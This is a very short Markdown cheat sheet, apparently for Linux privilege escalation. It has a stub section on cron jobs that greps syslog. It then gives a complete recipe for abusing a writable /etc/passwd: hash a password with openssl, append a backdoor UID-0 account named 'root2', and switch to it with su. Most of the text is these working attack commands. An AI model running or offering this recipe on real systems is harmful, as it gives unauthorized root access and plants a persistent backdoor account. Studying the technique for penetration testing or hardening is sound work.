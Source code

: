 # Abusing Cron Jobs

```
grep "CRON" /var/log/syslog
```

# Abusing Password Authentication

if `/etc/passwd` is writable

```
openssl passwd w00t
```

```
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

```
su root2
```
